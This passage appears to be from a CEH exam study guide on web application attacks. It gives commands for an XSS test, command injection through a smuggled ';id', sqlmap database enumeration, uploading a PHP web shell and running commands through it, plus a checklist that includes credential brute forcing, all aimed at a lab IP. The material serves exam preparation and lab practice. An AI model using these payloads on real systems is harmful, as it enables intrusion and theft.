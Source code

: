 XSS Testing

```
<script>alert('CEH')</script>  # Test in all input fields
```

Command Injection

```
curl "http://10.10.10.10/ping.php?ip=127.0.0.1;id"
```

### Automated Scanning Tools

OWASP ZAP Quick Start

```
zap-cli quick-scan -s xss,sqli http://10.10.10.10
```

SQLmap for Automated Exploitation

```
sqlmap -u "http://10.10.10.10/products.php?id=1" --risk=3 --level=5 --dbs
```

### File Upload Vulnerabilities

Bypass Client-Side Filters

```
curl -F "file=@shell.php" -H "Content-Type: multipart/form-data" http://10.10.10.10/upload.php
```

Verify Server Execution

```
curl http://10.10.10.10/uploads/shell.php?cmd=id
```

### Exam-Critical Reference Table

| Attack Type   | Tool           | Command Example                | Detection Method          |
| ------------- | -------------- | ------------------------------ | ------------------------- |
| Brute Force   | Hydra          | `http-post-form` target syntax | Failed login monitoring   |
| SQL Injection | SQLmap         | `--risk=3 --level=5`           | WAF rule analysis         |
| XSS           | Manual Testing | `<script>alert()</script>`     | Input sanitization checks |
| File Upload   | cURL           | `-F` for form submission       | MIME type verification    |

### Practical Exam Checklist

1. Discover hidden directories with Gobuster
2. Brute force admin credentials
3. Test for SQLi/XSS vulnerabilities
4. Exploit file upload functionality
5. Document all findings with screenshots
